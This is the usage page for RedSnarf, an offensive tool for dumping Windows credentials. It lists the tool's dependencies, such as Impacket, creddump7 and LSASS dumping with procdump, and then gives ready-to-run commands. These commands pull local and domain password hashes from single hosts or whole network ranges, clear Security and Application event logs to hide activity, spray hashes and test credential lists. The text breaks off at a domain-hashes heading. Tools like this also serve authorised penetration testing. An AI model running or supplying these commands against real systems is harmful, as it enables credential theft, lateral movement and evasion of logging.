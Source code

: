 RedSnarf Usage
=======================

**Requirements:**  
Impacket v0.9.16-dev - https://github.com/CoreSecurity/impacket.git  
CredDump7 - https://github.com/Neohapsis/creddump7  
Lsass Retrieval using procdump - https://technet.microsoft.com/en-us/sysinternals/dd996900.aspx  
Netaddr (0.7.12) - pip install netaddr  
Termcolor (1.1.0) - pip install termcolor  
iconv - used with parsing Mimikatz info locally  

**Show Help**  
./redsnarf.py -h  
./redsnarf.py --help  

Retrieve Local Hashes
=======================

Retrieve Local Hashes from a single machine using weak local credentials and clearing the Security event log  
**./redsnarf.py -H ip=10.0.0.50 -uC security**

Retrieve Local Hashes from a single machine using weak local credentials and clearing the application event log  
**./redsnarf.py -H ip=10.0.0.50 -uC application**

Retrieve Local Hashes from a single machine using local administrator credentials  
**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d .**

Retrieve Local Hashes from a single machine using domain administrator credentials  
**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com**

Retrieve Hashes across a network range using local administrator credentials  
**./redsnarf.py -H range=10.0.0.1/24 -u administrator -p Password01 -d .**

Retrieve Hashes across a network range using domain administrator credentials  
**./redsnarf.py -H range=10.0.0.1/24 -u administrator -p Password01 -d yourdomain.com**

Retrieve Hashes across a network range using domain administrator credentials  
**./redsnarf.py -H file=targets.txt -u administrator -p Password01 -d yourdomain.com**

Hash Spraying
=======================

Spray Hashes across a network range   
**./redsnarf.py -H range=10.0.0.1/24 -hS credsfile -d .**

Retrieve Hashes across a network range domain login  
**./redsnarf.py -H range=10.0.0.1/24 -hS credsfile -d yourdomain.com**

Quickly Check Credentials  
**./redsnarf.py -H ip=10.0.0.1 -u administrator -p Password1 -d . -cQ y**

Quickly Check File containing usernames (-hS) and a generic password (-hP)  
**./redsnarf.py -H ip=10.0.0.1 -hS /path/to/usernames.txt -hP PasswordToTry -cQ y**

Retrieve Domain Hashes
=======================
